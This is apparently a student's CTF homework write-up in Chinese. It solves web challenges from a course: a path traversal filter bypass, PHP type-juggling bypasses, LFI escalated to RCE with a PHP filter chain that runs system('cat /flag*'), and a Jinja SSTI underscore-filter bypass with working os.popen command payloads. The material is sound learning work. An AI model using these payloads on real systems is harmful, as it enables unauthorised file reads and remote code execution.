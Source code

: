 ```yaml
---
title: "【網路安全實務與社會實踐】作業二 Write-up"
published: 2025-03-26T00:00:00.000Z
description: ""
tags: [CTF, Learning, Writeups]
category: Learning
draft: false
---
```

# 作業二 Write-up by owl_d

### pathwalker-waf2

發現這題的path traversal重點在這個區間

```php
<?php
      if (isset($_GET['page'])) {
        $safe_path = str_replace('../', '', $_GET['page']);
        echo file_get_contents("./page/".$safe_path.".php");
      }    
    ?>
```

程式只有把 ../ 換掉
所以可以使用 ..././ 的方式來 bypass
..././ 被換掉後會變成 ../ 就一樣可以達成回到上一層的目的

`https://chall.nckuctf.org:28142/?page=..././..././..././..././var/www/html/flag`
即取得flag

p.s. 這題沒辦法用 ..%2f 的方式來bypass，會被當成 ../ 過濾掉

<!--more-->

### swirl

Stage 1:

```php
<?php
include('config.php');
echo '<h1>👻 Stage 1 / 4</h1>';

$A = $_GET['A'];
$B = $_GET['B'];

highlight_file(__FILE__);
echo '<hr>';

if (isset($A) && isset($B))
    if ($A != $B)
        if (strcmp($A, $B) == 0)
            if (md5($A) === md5($B))
                echo "<a href=$stage2>Go to stage2</a>";
            else die('ERROR: MD5(A) != MD5(B)');
        else die('ERROR: strcmp(A, B) != 0');
    else die('ERROR: A == B');
else die('ERROR: A, B should be given');
```

弱型態比較，可以使用 md5(array型態) = NULL 的性質來達成
payload: `?A[]=1&B[]=2`

Stage 2:

```php
<?php
include('config.php');
echo '<h1>👻 Stage 2 / 4</h1>';

$A = $_GET['A'];
$B = $_GET['B'];

highlight_file(__FILE__);
echo '<hr>';

if (isset($A) && isset($B))
    if ($A !== $B){
        $is_same = md5($A) == 0 and md5($B) === 0;
        if ($is_same)
            echo (md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2");
        else die('ERROR: $is_same is false');
    }
else die('ERROR: A, B should be given');
```

關鍵點應該在這：
`md5($B) ? "QQ1" : md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"`
看起來有點複雜，但我們可以一部分一部分拆開來看
`md5($B) ? "QQ1" : (目標要到這邊)`
可以看出來 b 必須得是 false，才能繼續往下
進到下一層後，
`md5($A) == 0 ? "<a href=$stage3?page=swirl.php>Go to stage3</a>" : "QQ2"`
所以 md5($A) 必須得是0
整理一下條件：

1. A 和 B 的值必須不同
2. md5(A) 和 md5(B) 都必須等於 0
3. md5(B) 必須為假值

payload: `?A[]=1&B[]=2`

有趣的事：
意外發現 payload: `?A=true&B=false` 也行得通
可是我自己做了實驗
![image](https://hackmd.io/_uploads/rJX2pUxTJg.png)
發現程式根本就應該跳到 QQ1 就算 QQ1 被調過了應該也要跳去 QQ2
到現在我還是不懂是什麼神奇的機制繞過的，我再研究看看

Stage 3:
.. 會變成 .
那 .... 就會變成 .. 了！
payload: `....\config.php`
(記得要打開網頁原始碼看！)
![image](https://hackmd.io/_uploads/Hkv_1tA31e.png)

Stage 4:
寫完這題發現 LCI 轉 RCE 真的是天才般的發現，太神了
先觀察題目source，會發現主要漏洞在：

1. 使用了 extract($_POST) 函數，直接將 POST 請求中的參數轉換為變數
2. 未經過濾的 include($👀) 語句，允許包含任意文件

所以先試了一下 POST 👀=/etc/passwd：
發現真的有回傳內容，代表 LFI 行得通
![image](https://hackmd.io/_uploads/B1P8D8gpkg.png)

可是 👀=/flag 或者  👀=../../../flag.php 等等直接取 flag 的方式全部失敗
所以勢必得要 RCE 才能印出 flag 了

這次攻擊主要採用 PHP filter chain 來達成
https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md
指令：`python3 php_filter_chain_generator.py --chain "<?php system('cat /flag*'); ?>"`
送到 POST 的 👀 後面變取得 flag

p.s. 最後我還用了 `python3 php_filter_chain_generator.py --chain "<?php system('ls /'); ?>"`
回頭再看一下爲什麼當初試了快 5 個小時的 ../../flag.php 不管用
最後也看到了 flag 檔案有加後綴，所以 path traversal 其實不管用
![image](https://hackmd.io/_uploads/S1r4DUe6yx.png)

### SSTI-waf1

一開始先送送看 `{{7*7}}` 發現真的回應 49
那肯定得是個 SSTI 了！

![image](https://hackmd.io/_uploads/B1xZc0yT1x.png)
從source發現題目會擋掉 _ 底線
所以把底線用 `\5f` 來繞過
並且用 `attr` 代替 點 來做串接

一開始先用ls / 看根目錄有沒有值得注意的檔案
`{{ cycler|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('ls /')|attr('read')() }}`
發現網頁回應：
![image](https://hackmd.io/_uploads/Sk3ycRJ6kx.png)

有 flag 檔案，cat 一下便可以得到解答
payload:
`{{ cycler|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('cat /flag')|attr('read')() }}`
